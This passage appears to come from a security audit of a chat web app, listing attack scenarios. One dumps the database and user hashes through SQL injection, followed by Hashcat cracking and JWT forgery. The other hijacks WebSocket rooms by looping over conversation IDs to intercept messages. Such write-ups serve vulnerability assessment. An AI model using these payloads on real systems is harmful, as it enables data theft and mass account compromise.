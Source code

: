 2. **Enumerate Tables:**
   ```sql
   ' UNION SELECT name, sql, '', '', '' 
   FROM sqlite_master 
   WHERE type='table'--
   ```

3. **Extract User Data:**
   ```sql
   ' UNION SELECT 
     id, username, password_hash, public_key, encrypted_private_key 
   FROM users--
   ```

4. **Offline Cracking:**
   - Extract all `password_hash` values
   - Run Hashcat with bcrypt mode
   - Crack weak passwords

5. **Account Access:**
   - Use cracked passwords to log in
   - Or forge JWT tokens with known secret

**Impact:** Database dump, mass account compromise.

---

### 9.4 WebSocket Room Hijacking

**Scenario:** Attacker joins conversations they shouldn't have access to.

**Steps:**

1. **Authenticate Normally:**
   ```javascript
   const socket = io('https://[server].vercel.app');
   socket.emit('authenticate', legitimateToken);
   ```

2. **Join Unauthorized Conversations:**
   ```javascript
   // No validation on conversationId!
   for (let i = 0; i < 10000; i++) {
     socket.emit('join-conversation', `conv-${i}`);
   }
   ```

3. **Listen for All Messages:**
   ```javascript
   socket.on('new-message', (data) => {
     console.log(`[INTERCEPTED from ${data.conversation_id}]:`, data);
     // Exfiltrate...
   });
   ```

**Impact:** Unauthorized access to messages across all conversations.

---
